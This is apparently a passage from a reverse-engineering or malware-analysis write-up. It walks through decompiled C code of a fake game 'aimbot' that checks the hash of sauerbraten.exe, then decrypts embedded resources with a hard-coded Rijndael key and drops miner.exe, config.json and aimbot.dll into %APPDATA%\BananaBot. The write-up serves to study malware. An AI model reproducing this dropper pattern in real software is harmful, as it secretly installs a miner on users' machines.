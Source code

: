 The button handler does a lot of interesting things. First of all it checks the MD5 digest of the 
`sauerbraten.exe` file which is supposed to be on the system (as we will see this check is
critical because the program reads from specific locations from memory):
```c
void u_button_handle() {
  u_unknown();
  strcpy(v52, "%PROGRAMFILES(X86)%\\Sauerbraten\\bin64\\sauerbraten.exe");
  ExpandEnvironmentStringsA(v52, filename, 0x400u);
  ExpandEnvironmentStringsA("%PROGRAMFILES(X86)%\\Sauerbraten", v59, 0x400u);
  fileHdl = CreateFileA(filename, 0x80000000, 1u, 0i64, 3u, 0x80u, 0i64);
  fileHdl_ = fileHdl;
  if ( fileHdl != (HANDLE)-1i64 )
  {
    if ( !GetFileSizeEx(fileHdl, &v49)
      || (LowPart = v49.LowPart, v3 = (char *)malloc(v49.QuadPart), (fileContents = v3) == 0i64) )
    {
      CloseHandle(fileHdl_);
      return;
    }
    if ( !ReadFile(fileHdl_, v3, LowPart, &len, 0i64) )
    {
      CloseHandle(fileHdl_);
      free(fileContents);
      return;
    }
    CloseHandle(fileHdl_);
    u_md5_init(digest);
    u_md5_update(digest, fileContents, len);
    u_md5_final(digest);
    if ( v55 == 0xD7C6F08CA0220B18ui64 && v56 == 0x2DBF0B17FFA57A6Ci64 )
    {
```

If the digest matches, program extracts **3** files from the PE resources, it decrypts them
(using Rijndael in ECB mode and key `yummyvitamincjoy`) and drops them under `%APPDATA%\\BananaBot`
directory. These files are `miner.exe`, `config.json` and `aimbot.dll`.
```c
      free(fileContents);
      memset(base_dir, 0, sizeof(base_dir));
      ExpandEnvironmentStringsA("%APPDATA%\\BananaBot", base_dir, 0x400u);
      v5 = base_dir;
      /* ... */
      CreateDirectoryA(base_dir, 0i64);
      strcpy(miner_exe, base_dir);
      strcpy(config_json, base_dir);
      strcpy(aimbot_dll, base_dir);
      strcat(miner_exe, "\\miner.exe");
      strcat(config_json, "\\config.json");
      strcat(aimbot_dll, "\\aimbot.dll");
      FileA = CreateFileA(miner_exe, 0x40000000u, 0, 0i64, 2u, 0x80u, 0i64);
      if ( FileA != (HANDLE)-1i64 ) {
        ModuleHandleA = GetModuleHandleA(0i64);
        ResourceA = FindResourceA(ModuleHandleA, (LPCSTR)1, (LPCSTR)0xA);
        if ( !ResourceA )
          goto TEARDOWN;
        v45 = ResourceA;
        encr_buflen = SizeofResource(ModuleHandleA, ResourceA);
        if ( !encr_buflen )
          goto TEARDOWN;
        Resource = LoadResource(ModuleHandleA, v45);
        if ( !Resource )
          goto TEARDOWN;
        encr_buf = LockResource(Resource);
        v13 = u_decrypt_buf_with_rijndael(encr_buf, encr_buflen);
        v42 = encr_buflen - 42;
```